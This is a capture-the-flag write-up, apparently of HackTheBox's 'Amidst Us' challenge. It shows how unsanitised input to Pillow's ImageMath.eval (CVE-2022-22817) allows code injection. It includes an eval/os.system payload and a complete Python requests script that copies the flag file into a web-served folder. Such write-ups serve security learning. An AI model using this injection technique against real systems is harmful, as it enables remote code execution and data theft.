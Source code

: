 ```yaml
---
layout: post
title:  "HTB CTF - Amidst Us writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


On starting the container and visiting the site you are greeted
with a dark site with a "flash light" effect. Functionality is
limited, you can select a colour, and upload a file.

Inspecting the source there is a route `/api/alphafy` that accepts
some JSON, expected in the following format:

<!-- more -->

```json
{
    "image": "string",
    "background": "array"
}
```

The vulnerability appears to be in the `ImageMath.eval` function
call in `make_alpha`:

```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]
		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
```

[CVE-2022-22817](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901)

There isn't any sanitising on the `"background"` input, so we can
use this for injecting a string into the eval function.

After finding a [valid tiny base64 encoded png](https://stackoverflow.com/a/36610159/7220776)
for the `"image"` input, it was time to craft a payload.

Tesing locally I had

```python
"exec(\"import os; os.system(\'cat ../flag.txt > ./application/static/uploads/flag.txt\');\")"
```

but it was causing the flask process to crash with a seg fault...

I tried my luck on the remote container, and thankfully there was a
restart policy in place, and the container came back up with the flag
where I wanted it.


```python
import requests

TARGET_HOST = "<host>:<port>"

res = requests.post(
    url=f"http://{TARGET_HOST}/api/alphafy",
    headers={
        "Content-Type": "application/json"
    },
    json={
        "image": "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVQYV2NgYAAAAAMAAWgmWQ0AAAAASUVORK5CYII=",
        "background": [
            "exec(\"import os; os.system(\'cat /flag.txt > ./application/static/uploads/flag.txt\');\")", 255, 255]
    }
)
```